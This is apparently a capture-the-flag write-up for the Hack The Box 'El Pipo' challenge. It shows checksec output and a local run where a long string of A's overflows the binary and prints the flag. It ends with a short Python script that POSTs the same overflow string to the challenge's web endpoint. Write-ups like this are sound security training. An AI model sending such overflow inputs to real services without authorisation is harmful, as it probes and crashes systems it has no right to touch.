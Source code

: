 
El Pipo

An ancient spirit, El Pipo, has taken control of this place. Face your fears and try to drive it away with your most vicious scream!

``` shell

challenge/el_pipo: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=c66ca21391c1c138ef255b82e0178a3339c9e240, for GNU/Linux 3.2.0, not stripped

└──╼ $pwn checksec challenge/el_pipo
[*] '/home/amplex/htb/_ctf/htboo2024/pwn_el_pipo/challenge/el_pipo'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'

```
So this has got PIE enabled, position independent executable, so each run will have a randomized base address, which we may need to leak for successful exploitation.

Ran it, with some input and it replied 'not scary enough.'
``` shell
└──╼ $./el_pipo
asdasdkjasdhasdkasdhasdkj
Not scary enough.. Boo! :
```

but oddly, the 2nd time I ran it with an arbitrary amount of A's, it gives me the flag:

``` shell
└──╼ $./el_pipo
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
HTB{f4ke_fl4g_4_t35t1ng}
Segmentation fault
```
Okay so, when trying this on the remote machine, it ends up being a webserver instead.
``` shell
└──╼ $nc 83.136.254.173 48362
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
        <p>Message: Bad request syntax ('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```
Looked at the source of the website in a browser and it looks like its sending a POST request to /process in json format:
``` web-source
  <script>
    // Handle form submission asynchronously using JavaScript (AJAX)
    document.getElementById('binaryForm').addEventListener('submit', async function(event) {
      event.preventDefault(); // Prevent traditional form submission
      const input = document.getElementById('userInput').value;
      const response = await fetch('/process', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ userInput: input })
      });
      const result = await response.text(); // Assuming your binary sends back plain text
      document.getElementById('result').innerText = result;
```

So, I can send this string using python requests and json I think instead..  Wrote a quick test to try, and it worked first time:

``` python3
import requests
import json

url = 'http://83.136.254.173:48362/process'  # Replace with the actual URL

data = { "userInput": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" }

response = requests.post(url, json=data)
if response.status_code == 200:
  print("[+] Status Code:", response.status_code)
  print("[+] Response:", response.text)
else:
  print("[-] Status Code:", response.status_code)
  print("[-] Error! ")
```

``` output
└──╼ $pico solve.py ; python3 solve.py
[+] Status Code: 200
[+] Response: HTB{3l_p1p0v3rfl0w_8c7ceba7e92af960e747fa00a536b238}
```
